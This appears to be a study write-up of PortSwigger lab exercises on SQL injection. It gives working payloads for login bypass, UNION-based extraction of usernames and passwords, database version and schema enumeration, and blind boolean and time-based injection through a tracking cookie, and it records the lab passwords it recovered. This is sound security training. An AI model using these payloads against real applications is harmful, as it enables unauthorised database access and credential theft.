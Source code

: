 # SQL Injection

 - [Retrieving hidden data](#retrieving-hidden-data)
 - [UNION attacks](#union-attacks)
 - [Blind SQL injection](#blind-sql-injection)

Details at [here](https://portswigger.net/web-security/sql-injection)

Type of SQL injection in example

- [Retrieving hidden data](#retrieving-hidden-data)
- [UNION attacks](#union-attacks)
- [Blind SQL injection](#blind-sql-injection)

Type of SQL injection attack:
 - In-band SQLi (data is returned to the attacker in the same HTTP response as the SQL query)
  - Error-based SQLi: error messages returned by the web application contain sensitive data
  - Union-based SQLi: using union query to retrieve data from other tables
 - Inferential (Blind) SQLi (data is not returned to the attacker in the same HTTP response as the SQL query)
  - Boolean-based SQLi: using boolean logic to infer the results of SQL queries
  - Time-based SQLi: using time delays to infer the results of SQL queries
 - Out-of-band SQLi (DNS or HTTP requests to transfer data to an attacker-controlled server)

---

## Retrieving hidden data

Modify an SQL query to return additional results

[Lab 1](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data): retrieve hidden data

Description of this lab: the query of 1 category `Gifts`

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

And sample URL query: `https://example.com/filter?category=Gifts`

Goal: display details of all products in any category, both *released and unreleased*

`SELECT * FROM products WHERE category = '' or '1'='1' AND released = 1`

We just only adjust in `category=` and put into `''`, so the final payload:
`' or '1'='1` or `https://example.com/filter?category=%27%20or%20%271%27or%271` 

[Lab 2](https://portswigger.net/web-security/sql-injection/lab-login-bypass): login bypass

Description of this lab: inject in login page as username: administrator

So we need to modify the password, and check the password with the previous payload: `' or '1'='1`, and it worked

## UNION attacks

Detail found at [here](https://portswigger.net/web-security/sql-injection/union-attacks)

See cheat sheet [here](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[Lab 3](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns): determine number of columns

Description of this lab: vulnerability in the product category filter, use a UNION attack to retrieve data from other tables

Firstly, we need to identify the number of columns in the table, and use payload: `' ORDER BY <number-of-column> --` to check, after we use `' ORDER BY 4 --`, we got the error `Internal Server Error` so the column is 3.

Finally, we use `' UNION SELECT NULL, NULL, NULL--` to make a union attack at `/filter?category=` then solved this challenge.

[Lab 4](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text): find column containing text

Description of this lab: You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. After that, alter NULL to random text on the homepage, for example: 'qG26iL'

Do as same as the previous one with `' UNION SELECT NULL, NULL, NULL--`. After trying, the final payload is `' UNION SELECT NULL, 'qG26iL', NULL--`

[Lab 5](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables): retrieve data from other tables

Description of this lab: The database contains a different table called users, with columns called username and password

In this lab, there are 2 columns in this table

Do the same as the previous one with `' UNION SELECT NULL, NULL--`. Follow the description, and change NULL to username and password. Moreover, we need access to a table named `users`, so the payload is: `' UNION SELECT username, password FROM users--`, then we got all username and password.

Login with the password of user `administrator`: nq3glruptcrilo0yscf6 and solved the lab.  

[Lab 6](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column): retrieve multiple values in single column

This lab has the same description as the previous one, but we need to retrieve multiple values in a single column. Furthermore, in this lab, we can use only the second column.

Look at the cheat sheet, we can use the string concatenation technique. After trying, we found this lab use `||` for concatenate string. The final payload is `' UNION SELECT NULL, username||':'||password FROM users--` to get all usernames and passwords.

Login with the password of user `administrator`: 532codf0er823llefy7x and solved the lab. 

[Lab 7](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle): querying database version (Oracle)

Description of this lab: display the database version string of Oracle

In this lab, the available number of columns is 2. Look at the cheat sheet, try with: `SELECT banner FROM v$version` and the final payload is: `' UNION SELECT banner, NULL FROM v$version--`, then solved the lab.

[Lab 8](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft): querying database version (MySQL and Microsoft)

This lab has the same description as the previous one, but for MySQL and Microsoft.

The final payload is `' UNION SELECT @@version, NULL#`, we will change `v$version` to `@@version`, `--` to `#`, then solved the lab.


[Lab 9](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle): listing database contents (non-Oracle)

Description of this lab: You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

This lab has 2 available columns, we need to determine the name of table first. However, determine the version of database. After trying, `' UNION SELECT version(), NULL--` worked and result is `PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Check the cheat sheet, found database contents with PostgreSQL using `' UNION SELECT table_name, NULL FROM information_schema.tables--`. So there are a lot of tables, find the column of table `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ahngdj'--`, the result is columns names: username_ivoiag and password_vxgmam

The final payload is `' UNION SELECT username_ivoiag, password_vxgmam FROM users_ahngdj--`, the password of administrator is l9jw2he0g1jr5zzndr3o. Login with this password, then solved the lab.

[Lab 10](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle): listing database contents (Oracle)

This lab has the same description as the previous one, but for oracle.

Get all table name in database with `' UNION SELECT table_name, NULL FROM all_tables--`, and the name of table which we need to access is USERS_NOFLTA then use `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_NOFLTA'--` to get name of password and username column: PASSWORD_EVVZCC & USERNAME_ETTQUM.

The final payload is: `' UNION SELECT USERNAME_ETTQUM, PASSWORD_EVVZCC FROM USERS_NOFLTA--` and get password of administrator is qhwrw9aos6k2p2uodezp, login and solved the lab.

## Blind SQL injection 

[Lab 11](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses): conditional responses

Description of this lab: The results of the SQL query are not returned, and no error messages are displayed. But the application includes a **Welcome back** message in the page if the query returns any rows. The application uses a tracking **cookie** for analytics, and performs an SQL query containing the value of the submitted cookie.   

The database contains a different table called **users**, with columns called **username and password**, find out the password of the administrator user.

So we need to modify cookie, when we use burp suite, and open page, we will get cookie like this: `Cookie: TrackingId=78FpD4ERhK86IMIp; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`. 

If we modify session, the website will be loss data of this session, so we will modify TrackingID `Cookie: TrackingId=78FpD4ERhK86IMIp+'+or+1=1--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`, and return page including 'Welcome back', so it is right direction. Only thing we can do is making condition. At the first, determine the length of password `Cookie: TrackingId=78FpD4ERhK86IMIp+'or+(SELECT+LENGTH(password)+FROM+users+WHERE+username='administrator')=20--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`

Note: using burp intruder for brute force value in condition 

Next, using brute force to guess 20-length password character by character with turbo intruder  

Guess first character
`Cookie: TrackingId=78FpD4ERhK86IMIp+'or+(SELECT+SUBSTRING(password,1,1)+FROM+users+WHERE+username='administrator')='%s'--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`

Using this [script](/Scripts/brutecondition.py) to guess, then write answer for per attack. After 20 trial, we will get password is `s4ykqo9mvgpqisgnzv9t`. Log in with this password and solved the lab.

[Lab 12](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors): conditional errors



[Lab 13](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays): time delays

Description of this lab: exploit the SQL injection vulnerability to cause a 10 seconds delay.

Using payload similar `Cookie: TrackingId=nTjOlcnGoesLH7fd+'or+pg_sleep(10)--; session=8BYemkFDFxWMOkX21X7uPWmJ0P1fAYRl` to sleep in 10 second, then solved the lab.

[Lab 14](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval): time delays (information retrieval)







